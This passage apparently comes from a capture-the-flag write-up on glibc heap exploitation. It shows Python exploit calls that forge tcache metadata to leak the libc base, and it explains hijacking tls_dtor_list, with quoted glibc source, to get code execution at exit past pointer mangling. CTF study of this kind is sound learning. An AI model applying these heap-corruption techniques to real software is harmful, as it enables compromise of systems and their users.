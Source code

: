 Then write 0x290 bin size to 7, free it to put it to unsorted bin (fastbin's max bin size is 0xa0) and leak libc base. 

```python
edit(3, 0x60, p64(0))
edit(4, 0x60, p64(0) + p64(0x200000000))
edit(5, 0x70, p64(0))
edit(6, 0x70, p16(0)*0x27 + p16(7))
edit(4, 0)
list()
```

## tls_dtor_list

From glibc-2.32, `__malloc_hook` and `__free_hook` were removed so I used `tls_dtor_list ` to prepare a function call when program `exit()`. 

`exit()` is actually a wrapper of `__run_exit_handlers()`. That function will call `__call_tls_dtors()` if `tls_dtor_list ` is not NULL.

```c
__run_exit_handlers (int status, struct exit_function_list **listp,
		     bool run_list_atexit, bool run_dtors)
{
  /* First, call the TLS destructors.  */
#ifndef SHARED
  if (&__call_tls_dtors != NULL)
#endif
    if (run_dtors)
      __call_tls_dtors ();
	//[truncated...]
}
```

`tls_dtor_list`'s address can be calculated from libc base. We can prepare the pointer in tcache struct to arbitrarily and point it to a prepared `dtor_list`.

## Pointer mangling

There's one thing to overcome that function pointer in `__call_tls_dtors()` is passed to `PTR_DEMANGLE()` before being called. 

```c
/* Call the destructors.  This is called either when a thread returns from the
   initial function or when the process exits via the exit function.  */
void
__call_tls_dtors (void)
{
  while (tls_dtor_list)
    {
      struct dtor_list *cur = tls_dtor_list;
      dtor_func func = cur->func;
#ifdef PTR_DEMANGLE
      PTR_DEMANGLE (func);
#endif

      tls_dtor_list = tls_dtor_list->next;
      func (cur->obj);

      /* Ensure that the MAP dereference happens before
	 l_tls_dtor_count decrement.  That way, we protect this access from a
	 potential DSO unload in _dl_close_worker, which happens when
	 l_tls_dtor_count is 0.  See CONCURRENCY NOTES for more detail.  */
      atomic_fetch_add_release (&cur->map->l_tls_dtor_count, -1);
      free (cur);
    }
```
